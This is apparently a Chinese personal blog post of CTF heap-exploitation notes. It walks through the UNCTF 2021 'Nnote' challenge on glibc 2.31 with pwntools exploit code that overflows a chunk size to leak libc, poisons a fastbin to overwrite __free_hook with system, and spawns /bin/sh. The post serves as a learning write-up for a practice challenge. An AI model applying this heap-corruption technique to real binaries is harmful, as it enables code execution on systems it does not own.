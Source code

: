 ---
title: "pwn堆题整理"
date: 2021-12-23T14:55:04+08:00
draft: false
tags: ['pwn', 'ctf']
categories: ['learning']
---

* 堆溢出
** [[https://ctf.unctf.com/#/train][Nnote]]
花了一周打的UNCTF，光做PWN了，做了7道，就差这道堆题没做出来。最后还有30名以内。。。因为这比赛本身就是入门级的，算是我第一次实战吧。赛后看着wp调试出来。当时应该是找到了漏洞点，但因为基础薄弱最终也没做出来，更别说环境还弄了半天没弄好。。。通过这道题我算是实际开始入门堆了吧。[[https://www.ctfwp.com/%E5%AE%98%E6%96%B9%E8%B5%9B%E4%BA%8B%E9%A2%98/2021UNCTF][这里]]是官方wp。

*** exp环境
题目给的libc是2.31
#+begin_src shell
patchelf --set-rpath ~/glibc-all-in-one/libs/2.31 ./Nnote
patchelf --set-interpreter ~/glibc-all-in-one/libs/2.31/ld-2.31.so ./Nnote
#+end_src

*** 泄漏libc
从libc-2.26开始加入了TCache，2.28加入对TCache二次释放的检查. TCache为每个线程加入64个单链表的bins，（64bit系统）以16字节递增，从24B到1032B。每个bins最多放7个chunk。堆开头的0x250的堆块就是tcache_perthread_struct. 在free时，如果chunk大小符合要求，就会在放入fastbins之前放入tcache。分配堆块时若从fastbins中成功返回一个chunk，对应fastbins中其他chunk会被放入对应tcache直到装满。small bins中情况类似。chunk合并时chunk会优先放入tcache。tcache中chunk的PREV_INUSE位和在fastbins中一样不会被清零，因此不会被合并。

因此这题需要先构造出大于0x410(1040B)的堆块，释放进unsorted bin。需要注意在想释放的堆块后还要再申请一块chunk，防止因为和topchunk相邻而直接合并进topchunk。unsorted bin中如果只有一个chunk，并且这个chunk在上次分配时被使用过时，若申请一个大小属于small bins(32B-1008B)的空间，会直接从该chunk中进行切割，切出低地址部分返回。

这题申请大小限制不小于0，不大于128，并且根据申请的大小限制了修改时能写入的字节数。但是申请0B的堆块时能通过整数溢出绕过限制条件引起堆溢出。因此这里构造大小为0x480的chunk的方法就是构造9个连在一起的，大小为0x80的chunk（malloc申请的大小为0x78）；然后利用最上面堆块上面的堆溢出覆盖第一块的块大小字段为0x481（块大小字段最低bit为PREV_INUSE）。释放后再申请一个0x80的chunk，会从之前释放到unsorted bin头部割出0x80，导致现在在unsorted bin中的chunk和原来申请的9块中的第二块重叠，输出第二块的数据就可以得到unsorted bin。

#+begin_src python
    add(0)
    for i in range(9):
        add(0x78)
    add(0x18)

    edit(0 , 'a'*0x18+p64(0x481))
    delete(1)
    add(0x78)
    show(2)
    __malloc_hook = l64() - 0x70
    libc.address = __malloc_hook - libc.sym['__malloc_hook']
#+end_src

得到的地址和main_arena(或__malloc_hook)之间的偏移是固定的。可以在gdb调试里看到与__malloc_hook之间的偏移为0x70。

#+begin_src
gef➤  bins
tcachebins
empty
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x558be3001330 —▸ 0x7f6c92886be0 (main_arena+96) ◂— 0x558be3001330
smallbins
empty
largebins
empty
gef➤  x/gx &__malloc_hook
0x7f6c92886b70 <__malloc_hook>:	0x0000000000000000
#+end_src

*** 劫持free_hook
这时候申请两个0x40的chunk，序号分别为11和12. 从unsorted bin中分割出2个chunk，11号chunk和2号chunk重叠。先后释放12和11进入fastbins，修改2号内容即修改fastbins中对应大小的第一块的fd和bk。在fd字段（数据区前8B）写入 =__free_hook - 8= ，申请一个0x40的chunk后再申请一个0x40的chunk，拿到的伪造块的地址就是__free_hook - 8. 修改12号内容，前8B写入 =/bin/sh\x00= ，为伪造的调用free的参数；后8B为 =system_str= 覆盖__free_hook。最后free掉12号块即用伪造的参数调用free，执行 =system("/bin/sh\x00")= .

#+begin_src python
    system_addr = libc.sym['system']
    __free_hook = libc.sym['__free_hook']

    add(0x38)
    add(0x38)
    delete(12)
    delete(11)

    edit(2,p64(__free_hook - 8))
    add(0x38)
    add(0x38)
    edit(12, flat( '/bin/sh\x00' , system_addr))
    delete(12)

    p.interactive()
#+end_src

* UAF
